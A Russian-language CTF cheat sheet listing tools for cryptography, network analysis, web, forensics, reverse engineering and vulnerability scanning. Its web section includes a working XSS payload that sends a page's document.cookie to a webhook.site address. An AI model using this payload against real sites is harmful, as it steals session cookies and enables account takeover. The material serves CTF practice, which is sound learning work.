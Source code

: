 ###### РЕКОМЕНДУЮ СТАВИТЬ КАЛИ ЛИНУКС И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 

# Forensics
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП) 
  - Binwalk 
    - поиск исполняемых и других файлов в картинке
  - Foremost 
    - поиск файлов из дампа
- Strings 
  - иногда полезно для получения строк из исполняемого файла
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt

# Assembler


- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер


# Vulnerability search
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
# Uncategorized:
- [awesome-ctf](https://project-awesome.org/apsdehal/awesome-ctf#solve)
  - multi tools
- [ctf-tools](https://github.com/zardus/ctf-tools)
  - multi tools